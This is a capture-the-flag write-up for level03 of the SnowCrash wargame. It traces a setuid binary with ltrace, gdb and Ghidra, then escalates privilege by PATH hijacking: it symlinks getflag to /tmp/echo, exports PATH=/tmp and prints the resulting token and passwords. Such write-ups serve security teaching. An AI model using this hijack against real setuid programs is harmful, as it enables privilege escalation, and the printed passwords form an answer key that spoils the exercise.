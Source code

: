 # LEVEL03

### 1. Login with the password for level03

```
kooda2puivaav1idi4f57q8iq
```

So, we can see the level03 file as below with the command ls -la,
we execute ./level03

```
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
level03@SnowCrash:~$ ./level03
Exploit me
```

when we reun level03 with _cat_ command, we can see the file type as below, since we don't see any **.pcap** file extension on the file name, it's not at pcap file. But we can assume that it's binary file.

```
ELF44 	($!444  TTT��(((��hhhDDP�td44Q�tdR�td��/lib/ld-linux.so.2GNUGNUOX�;�Sy8n�n��KT{K �K��3LD= T)__gmon_start__libc.so.6_IO_stdin_usedsetresgidsetresuidsyste��etegidgeteuid__libc_start_mainGLIBC_2.0ii
S��[�ë��������t�a��'�[��5�%�%h������%������h������%
                                                   h�����%h �����%h(�����%h0����1�^����PTRh�hQVh��������������������U��S���=$u?�(� ������9�s�����(���(9�r��$��[]Ít&��'U����$��t���t	�$$���ÐU����� ������D$������D$�D$�D�D$�D$�D$�$�����D$��D$�D$�D$�$�����$�����Ð����������UWVS�i������l$0�� ��������� ���)�����t)1��D$8�,$���������������Ë$Ð���������U��S������t�f����Ћ���u��[]Ð�S��[��/�O����[�/usr/bin/env echo Exploit me;0p���L����p��������������zR� ���F
                                                   J
]�                                                  tx?;*2$"@,���a�B
  8`x���a�A
           �A�A�N0JA�A
                      ��A�������������������
����o�\́�                                    @�
```

We can also execute **./level03** file as below.

```
level03@SnowCrash:~$ ./level03
Exploit me
```

So, let's debug with **ltrace**

```
level03@SnowCrash:~$ ltrace ./level03
```

_ltrace_ is a debugging utility on Unix-like systems that can be used to intercept and display dynamic library calls.

```
__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                      = 2003
geteuid()                                                                      = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                            = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                            = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                         = 0
+++ exited (status 0) +++
```

The output seems to be a part of a trace produced by a dynamic analysis, possibly strace or similar, showing system calls made by an executable.
So we will debug this executable using **gdb**

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	and    $0xfffffff0,%esp
   0x080484aa <+6>:	sub    $0x20,%esp
=> 0x080484ad <+9>:	call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:	mov    %eax,0x18(%esp)
   0x080484b6 <+18>:	call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:	mov    %eax,0x1c(%esp)
   0x080484bf <+27>:	mov    0x18(%esp),%eax
   0x080484c3 <+31>:	mov    %eax,0x8(%esp)
   0x080484c7 <+35>:	mov    0x18(%esp),%eax
   0x080484cb <+39>:	mov    %eax,0x4(%esp)
   0x080484cf <+43>:	mov    0x18(%esp),%eax
   0x080484d3 <+47>:	mov    %eax,(%esp)
   0x080484d6 <+50>:	call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:	mov    0x1c(%esp),%eax
   0x080484df <+59>:	mov    %eax,0x8(%esp)
   0x080484e3 <+63>:	mov    0x1c(%esp),%eax
---Type <return> to continue, or q <return> to quit---
   0x080484e7 <+67>:	mov    %eax,0x4(%esp)
   0x080484eb <+71>:	mov    0x1c(%esp),%eax
   0x080484ef <+75>:	mov    %eax,(%esp)
   0x080484f2 <+78>:	call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:	movl   $0x80485e0,(%esp)
   0x080484fe <+90>:	call   0x80483b0 <system@plt>
   0x08048503 <+95>:	leave
   0x08048504 <+96>:	ret
End of assembler dump.
```

We can see some familiar functions as _geteuid, geteuid, setresgid.._ (remind me of some functions of C or C++)

To visualize these functions/code we can use a decompiler that can reconstruct this code to more higher level code, such as C.
We will use online decoder where Ghidra is included as a decode option **https://dogbolt.org/#Ghidra=134**

To decode our file, first, we need to copy our file to /tmp

```
scp -P 4242 level03@127.0.0.1:/home/user/level03/level03 /tmp
```

![Alt text](image.png)

```
int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;

  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```

We found the echo of **"Exploit me"**, the same result
when we execute **./level03** from the beginning.

So, let's take a look inside the **/usr/bin**

By manipulating the PATH environment variable, we can control the execution of the `env` command. To execute the program `getflag` located in `/bin` as if it were `echo`, we create a symbolic link named `echo` pointing to `getflag` in the writable `/tmp` directory. By adding `/tmp` to the PATH, we ensure that our fake `echo` in `/tmp` is executed when `env` searches for the `echo` command.

PATH 환경 변수를 조작하여 env 명령을 제어할 수 있습니다. /bin에 위치한 getflag 프로그램을 echo처럼 실행하기 위해 /tmp 디렉토리에 쓰기 가능한 심볼릭 링크를 만듭니다. PATH에 /tmp를 추가하여 env가 echo 명령을 찾을 때 /tmp의 가짜 echo가 실행되도록 보장합니다.

```
level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
```

- `ln`: to create the links for the files
- `-s`: option to specify that this will be a symbolic link.

- The command `ln -s /bin/getflag /tmp/echo` creates a symbolic link named `echo` in the `/tmp` directory, pointing to the `/bin/getflag` executable. This creates a link between the `getflag` program and a new executable named `echo` in the specified directory.

```
level03@SnowCrash:~$ export PATH=/tmp
```

- The command `export PATH=/tmp` updates the `PATH` environment variable to include the `/tmp` directory. This means that when you run a command, the system will also search for executables in the `/tmp` directory, allowing the newly created `echo` symbolic link to be found and executed when the `env` command looks for it.

With above configuration, we found the token. We do not have a flag03 for this exercise. So, we can use token as password for level04.

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

### Password for level04

```
qi0maab88jeaj46qoumi7maus
```
